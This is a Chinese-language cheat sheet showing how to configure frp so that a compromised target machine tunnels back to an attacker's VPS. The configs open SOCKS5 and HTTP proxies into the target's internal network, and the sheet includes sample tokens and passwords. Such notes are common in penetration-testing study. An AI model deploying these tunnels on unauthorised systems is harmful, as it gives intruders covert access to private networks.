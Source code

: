# Frp

---



```
支持tcp、udp、http、https、socker5
tcp、udp、socker5需要公网IP
http、https需要证书和域名
作用： 反向代理、端口转发
```



## 下载地址

```
https://github.com/fatedier/frp/releases
```



|         |             |                                                              |
| ------- | ----------- | ------------------------------------------------------------ |
| 公网VPS | 10.10.10.1  | ./frps -c frps.ini       (chmod 755 *  #给权限) <br/>#frps.ini---------------------------<br/>[common]<br/>bind_addr=0.0.0.0<br/>bind_port = 7088<br/>#------------------------------------ |
| 目标机  | 192.168.1.1 | frpc.exe -c frpc.ini<br/>#frpc.ini---------------------------<br/>[common]server_addr = 10.10.10.1<br/>server_port = 7088 <br/>[sock5-proxy]type = tcp<br/>remote_port = 3004<br/>plugin = socks5<br/>#------------------------------------ |
| 攻击者  | 192.168.2.1 | #任何协议均可连接socket5<br/>代理设置：http:// 10.10.10.1: 3004    socket5 |





| 对象    | IP          | 转发（操作）                                                 |
| ------- | ----------- | ------------------------------------------------------------ |
| 公网VPS | 10.10.10.1  | ./frps -c frps.ini       (chmod 755 *  #给权限)<br/>#frps.ini---------------------------<br/>[common]# 验证连接监听地址<br/>bind_addr=0.0.0.0<br/># 验证连接端口bind_port = 7088<br/># web统计后台账号<br/>dashboard_user = user1<br/># web统计后台密码<br/>dashboard_pwd = oUcOEDq3VGAxoW5Xoz51<br/># web统计后台端口dashboard_port = 7500<br/># token验证token = 8d262f2b-6dba-4a8d-857e-8a53d1d439e2<br/>#--------------------------- |
| 目标机  | 192.168.1.1 | frpc.exe -c frpc.ini<br/>#frpc.ini---------------------------<br/>[common]server_addr = 10.10.10.1<br/>server_port = 7088token = 8d262f2b-6dba-4a8d-857e-8a53d1d439e2 <br/># http代理<br/>[http_proxy]type = tcp<br/>remote_port = 6000<br/>plugin = http_proxy<br/>#配置http代理的简单认证<br/>plugin_http_user = user1<br/>plugin_http_passwd = 1qaz2wsx  <br/># ssh设置代理 或者远程桌面<br/>#[ssh]<br/>#type=tcp<br/>#local_ip = 127.0.0.1<br/>#local_port = 22<br/>#remote_port = 6000<br/>#启用加密#use_encryption = true<br/>#启用压缩#use_compression = true  <br/># web服务设置代理<br/>#[web]#type = http<br/>#local_port = 80<br/>#custom_domains = www.xxxx.com<br/>#--------------------------- |
| 攻击者  | 192.168.2.1 | 设置代理为VPS x.x.x.1:6000 进行验证用户密码即可通过代理进行访问内网得访问<br/>#cmd----------------------------------------------<br/>set http_proxy=http:// x.x.x.1:6000<br/>set http_proxy_user=user1<br/>set http_proxy_passwd=1qaz2wsx <br/>#web----------------------------------------------<br/>http:// 10.10.10.1:6000user1 / 1qaz2wsx |

